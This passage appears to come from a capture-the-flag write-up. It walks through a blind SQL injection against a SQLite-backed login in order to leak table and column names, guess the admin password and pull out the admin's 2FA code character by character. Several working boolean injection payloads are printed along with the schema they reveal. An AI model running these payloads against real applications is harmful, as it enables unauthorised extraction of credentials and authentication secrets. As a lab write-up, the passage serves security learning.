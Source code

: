 however we still dont have 2FA, so we first we'll leak the table count, which is 3:
```sql
admin' AND (SELECT count(1) FROM sqlite_master WHERE type='table') = 3--
```
and we can leak the table names:
```sql
admin' AND (SELECT ASCII(SUBSTR(name, {character position}, 1)) FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET {table index}) = {ascii code}
```
then leak column names:
```sql
admin' AND (SELECT unicode(substr(name, {character position}, 1)) FROM pragma_table_info('{table name}') LIMIT 1 OFFSET {column index}) = {ascii code}
```
we'll get partial database structure:
```
Users
	username
	password
	code
	created_at
sqlite_sequence
posts
	id
	user_id
	content
	created_at
```
but note that the server actually treats **your input as your actual name**, instead of the result of the SQL\
which means your sqli will get in the way (name's `admin'OR 1=1--`, but we need `admin`)\
thus we need to leak the password. but i kinda just guessed it lmao `admin:admin` 

finally we can leak admin's 2FA:
```sql
admin' AND (SELECT unicode(substr((SELECT code FROM Users WHERE username='admin'),1,1))) = {ascii code} -- 
```
which is **`51756447753485459839`**\
after inputting we can see our flag in the 2nd post:\